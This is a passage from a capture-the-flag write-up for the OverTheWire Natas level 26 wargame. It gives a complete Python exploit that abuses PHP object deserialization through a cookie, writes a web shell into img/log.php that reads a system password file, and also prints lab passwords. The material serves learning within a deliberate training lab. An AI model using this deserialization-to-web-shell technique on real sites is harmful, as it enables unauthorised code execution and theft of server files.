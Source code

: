 gets executed.

The entire exploit:

```php
def exploit():
    sess = requests.Session()
    auth_username = 'natas26'
    auth_password = 'oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T'

    _payload = 'x1=1&y1=1&x2=10&y2=10'
    response = sess.get('http://natas26.natas.labs.overthewire.org/?' + _payload, auth=HTTPBasicAuth(auth_username, auth_password))
        
    
    print(sess.cookies)
    print("----------------------")


    php_payload = '<?php echo passthru(cat /etc/natas_webpass/natas27); ?>'
    class_name = "Logger"
    initMsg="LoggerinitMsg"
    log_file = "LoggerlogFile"
    log_file_name = "img/log.php"
    message = "LoggerexitMsg"

    payload = '0:'+str(len(class_name))+':"'+class_name+'":3:{s:'+str(len(log_file))+':"'+log_file+'";s:'+str(len(log_file_name))+':"'+log_file_name+'";s:'+str(len(initMsg))+':"'+initMsg+'";s:'+str(len('hi'))+':"hi";s:'+str(len(message))+':"'+message+'";s:'+str(len(php_payload))+':"'+php_payload+'"}'
    print(payload + "\n" + str(len(payload)) + "\n-----------------\n")
    payload = payload.encode("ascii")
    payload_bytes = base64.b64encode(payload)
    payload_string = payload_bytes.decode("ascii")
    print(payload_string)
    sess.cookies.set("drawing", value=payload_string, domain="natas26.natas.labs.overthewire.org", path="/")
    print(sess.cookies)

    response = sess.get('http://natas26.natas.labs.overthewire.org', auth=HTTPBasicAuth(auth_username, auth_password))
    dissect_response(response)

    response = sess.get('http://natas26.natas.labs.overthewire.org/img/log.php', auth=HTTPBasicAuth(auth_username, auth_password))
    dissect_response(response)
```

Things to consider: 

1. All variables of the class must be in the serialized payload.

2. They must be in order of definition in the class.

3. Since they are private, prefix `Logger` before them in the serialized version.

4. I tried and saw permission denied in `./`. So the only position to log is `./img/log.php`

Password: 55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ

# Level 27

## 

URL: http://natas27.natas.labs.overthewire.org

